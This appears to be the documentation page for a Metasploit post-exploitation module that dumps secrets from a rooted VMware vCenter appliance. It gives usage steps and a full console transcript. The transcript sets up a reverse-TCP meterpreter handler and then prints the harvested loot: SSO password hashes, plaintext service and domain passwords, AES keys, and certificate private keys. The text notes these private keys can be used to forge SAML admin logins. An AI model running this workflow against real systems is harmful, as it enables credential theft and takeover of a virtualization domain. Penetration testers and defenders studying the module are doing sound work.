 Grab secrets and keys from the vCenter server and add them to loot. Secrets include the dcAccountDN
and dcAccountPassword for the vCenter machine which can be used for maniuplating the SSO domain via
standard LDAP interface; good for plugging into the vmware_vcenter_vmdir_ldap module or for adding
new SSO admin users. The MACHINE_SSL, VMCA_ROOT and SSO IdP certificates with assocaited private keys
are also plundered and can be used to sign forged SAML assertions for the /ui admin interface.

## Vulnerable Application
This module is tested against the vCenter appliance only; it will not work on Windows vCenter
instances. It is intended to be run after successfully acquiring root access on a vCenter appliance
and is useful for penetrating further into the environment following a vCenter exploit that results
in a root shell. This module has been tested against vCenter appliance versions 7.0 and 6.7 but will
probably work against other versions of vCenter appliance.

## Verification Steps
This is a post module and requires a meterpreter or shell session on the vCenter appliance with root
access.

1. Start msfconsole
2. Get session on vCenter appliance via exploit of your choice and background it
3. Do: `use post/linux/gather/vcenter_secrets_dump`
4. Do: `set session <session>`
15. Do: `dump`

## Options
**SESSION**

Which session to use, which can be viewed with `sessions -l`

## Advanced Options
**DUMP_VMDIR**

Boolean value that controls whether the module will attempt to extract vSphere SSO domain
information, including SSO user hashes and a complete LDIF dump of the SSO directory. Defaults
to true.

**DUMP_VMAFD**

Boolean value that controls whether the module will attempt to extract vSphere certificates, private
keys, and secrets. Defaults to true.

**DUMP_SPEC**

If DUMP_VMAFD is also true, attempt to extract VM Guest Customization secrets from PSQL using the
DATA-ENCIPHERMENT key extracted from VMAFD. Defaults to true.

## Scenarios
Example run from meterpreter session on vCenter appliance version 7.0.2

```
msf6 > use multi/handler
set payload linux/x86/meterpreter/reverse_tcp
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
set LPORT 4444
msf6 exploit(multi/handler) > set LHOST 192.168.101.10
LHOST => 192.168.101.10
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.101.10:4444 
[*] Sending stage (989032 bytes) to 192.168.100.11
[*] Meterpreter session 1 opened (192.168.101.10:4444 -> 192.168.100.11:53410 ) at 2022-04-30 14:04:21 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/linux/gather/vcenter_secrets_dump
msf6 post(linux/gather/vcenter_secrets_dump) > set session 1
session => 1
msf6 post(linux/gather/vcenter_secrets_dump) > dump

[*] Gathering vSphere SSO domain information ...
[*] vSphere Hostname and IPv4: vcenteralpha..cesium137.io [192.168.100.11]
[+] vSphere SSO DC DN: cn=vcenteralpha..cesium137.io,ou=Domain Controllers,dc=alpha,dc=vsphere,dc=local
[+] vSphere SSO DC PW: .AwoZ1;wd>x_b=M1FQ'}
[*] Extract vmdird tenant AES encryption keys ...
[+] vSphere Tenant AES encryption key: OY;OTk3<W}tH[ze| hex: 0x4f593b4f546b333c577d74485b7a657c
[*] Extracting PostgreSQL database credentials ...
[+] VCDB Name: VCDB User: vc PW: my6h@)IN1jW$nHT{
[*] Extracting vSphere SSO domain information ...
[*] Dumping vmdir schema to LDIF ...
[+] LDIF Dump: /home/cs137/.msf4/loot/20220430140904_default_192.168.100.11_vmdir_231364.ldif
[*] Processing vmdir LDIF (this may take several minutes) ...
[*] Processing LDIF entries ...
[*] Processing SSO account hashes ...
[+] vSphere SSO User Credential: cn=vcenteralpha..cesium137.io,ou=Domain Controllers,dc=alpha,dc=vsphere,dc=local:$dynamic_82$f48caa19007e8bb3d76a7d172e2d1976f4747e0ed84159a712eb58156ede7478827909bf4acf9f71b74616ce5110d99b8426d8b3295b02c04aacff3c27607ab8$HEX$9374651ada3414775604fbdb150c8cdc
[+] vSphere SSO User Credential: CN=waiter 66bac9fd-6a99-43eb-8661-1295c39e9e4d,cn=users,dc=alpha,dc=vsphere,dc=local:$dynamic_82$8335fa00d0498f1028691aced7d8945be0fa1f689dc628a3307ec7918a8fcdb04587ebd8a6dc1b14cacc0c11e4f84c5e022108e0950b62dc63f3f37c0a3b3453$HEX$4108122797d8894b9963e5ac943918b9
[+] vSphere SSO User Credential: cn=krbtgt/ALPHA.VSPHERE.LOCAL,cn=users,dc=ALPHA,dc=VSPHERE,dc=LOCAL:$dynamic_82$0da378937caf846413b0a9a328e9fe901513bddddea9a0de5ca520f4d7eca9d2eeb7287a26f0d079941bb46df36a5b321c53b807e59c55b10bb62ff260e28021$HEX$266ca458d66911df01347b372939ae2a
[+] vSphere SSO User Credential: cn=K/M,cn=users,dc=ALPHA,dc=VSPHERE,dc=LOCAL:$dynamic_82$c20ca496510e8e6a0d3d9aa470dfe0baf06ccfb2ecc2e4952d232859e8fc22ccd3108926eb115574043652157db3f1d557af1cd1580190546178758eee57834a$HEX$22209783f4c187b777a31c2a814c2ff7
[+] vSphere SSO User Credential: cn=Administrator,cn=Users,dc=alpha,dc=vsphere,dc=local:$dynamic_82$f96cd214646ba2e4e21774a183f18572bc3d6c4174801d0523cbdc04d02bf69b102bfe9d68fdd71c5866f4972b2359516e65f59c4bda6eebd3cdca59b5f55be8$HEX$4f267135b496ff3119afc21fefda8643
[+] vSphere SSO User Credential: cn=vmca/vcenteralpha..cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$ee963a2f36d38a73e5cf4be729e7be4f491c97fc91b3e9bed96216de9bf72914d1442c49650b07366e9347369ce892d823e06613195027e3f44dfd50662b98dc$HEX$842fdf0b5b972c8f722fb3139142231d
[+] vSphere SSO User Credential: cn=ldap/vcenteralpha..cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$85523e5ad2ac353b925a0cc9f0fad88c881b17d5b218fdd568fb819a7bc58abf7e8783013e22468c657cae7f776ec77fb8b0ad815ef5cdc6ea114c701f19fa52$HEX$4faf7011a11a4939216a1211a4b08cea
[+] vSphere SSO User Credential: cn=DNS/vcenteralpha..cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$ad40b15f98588bc0c856a0f881ea857d6f3442a6755b9c33e40c7960d1833414d25ef96120f9416fca96d0ecfe3df6ddc1e992e5881baeacdcc4610bd43eda79$HEX$f3d9e1c742d9342c78c1825ab5b7efee
[+] vSphere SSO User Credential: cn=host/vcenteralpha..cesium137.io@ALPHA.VSPHERE.LOCAL,cn=Managed Service Accounts,dc=alpha,dc=vsphere,dc=local:$dynamic_82$bbcb9c30d8c1a40f409d24fe6ede60df7bf4860a9bdd50b146d063a194fdadb0df80d81ea5ea48a377f20709fa1c22f696facde785b160ceb0eb92eb5f8c5308$HEX$5fab6ef4332396fb4b4410cca448d52d
[*] Processing SSO identity sources ...
[*] Found SSO Identity Source Credential:
[+] IDENTITY_STORE_TYPE_VMWARE_DIRECTORY @ ldap://localhost:389:
[+] SSOUSER: vcenteralpha..cesium137.io@alpha.vsphere.local
[+] SSOPASS: .AwoZ1;wd>x_b=M1FQ'}
[+] SSODOMAIN: alpha.vsphere.local
[*] Found SSO Identity Source Credential:
[+] IDENTITY_STORE_TYPE_LDAP_WITH_AD_MAPPING @ ldap://cesium137.io:3268:
[+] SSOUSER: CESIUM137\ldap
[+] SSOPASS: SamIAm!
[+] SSODOMAIN: cesium137.io
[*] Extracting certificates from vSphere platform ...
[+] VMCA_ROOT key: /home/cs137/.msf4/loot/20220430140906_default_192.168.100.11_vmca_936623.key
[+] VMCA_ROOT cert: /home/cs137/.msf4/loot/20220430140907_default_192.168.100.11_vmca_555488.pem
[+] SSO_STS_IDP key: /home/cs137/.msf4/loot/20220430140909_default_192.168.100.11_idp_464049.key
[+] SSO_STS_IDP cert: /home/cs137/.msf4/loot/20220430140909_default_192.168.100.11_idp_273306.pem
[+] MACHINE_SSL_CERT key: /home/cs137/.msf4/loot/20220430140910_default_192.168.100.11_ssl_509899.key
[+] MACHINE_SSL_CERT cert: /home/cs137/.msf4/loot/20220430140910_default_192.168.100.11_ssl_581440.pem
[+] DATA-ENCIPHERMENT key: /home/cs137/.msf4/loot/20220430140911_default_192.168.100.11_data_110634.key
[+] DATA-ENCIPHERMENT cert: /home/cs137/.msf4/loot/20220430140911_default_192.168.100.11_data_051751.pem
[+] VSPHERE-WEBCLIENT key: /home/cs137/.msf4/loot/20220430140912_default_192.168.100.11_webclient_908714.key
[+] VSPHERE-WEBCLIENT cert: /home/cs137/.msf4/loot/20220430140913_default_192.168.100.11_webclient_473307.pem
[+] VPXD key: /home/cs137/.msf4/loot/20220430140913_default_192.168.100.11_vpxd_232400.key
[+] VPXD cert: /home/cs137/.msf4/loot/20220430140914_default_192.168.100.11_vpxd_225856.pem
[+] VPXD-EXTENSION key: /home/cs137/.msf4/loot/20220430140915_default_192.168.100.11_vpxdext_365675.key
[+] VPXD-EXTENSION cert: /home/cs137/.msf4/loot/20220430140915_default_192.168.100.11_vpxdext_458408.pem
[*] Searching for secrets in VM Guest Customization Specification XML ...
[*] Initial administrator account password found for vpx_customization_spec 'Windows 10 Ent No Domain Join':
[+] Built-in administrator PW: IAmSam!
[*] Initial administrator account password found for vpx_customization_spec 'Windows 10 Ent':
[+] Built-in administrator PW: Metasploit1$
[*] AD domain join account found for vpx_customization_spec 'Windows 10 Ent':
[+] AD User: administrator@cesium137.io
[+] AD Pass: ThisIsSecret!
[*] Post module execution completed
```
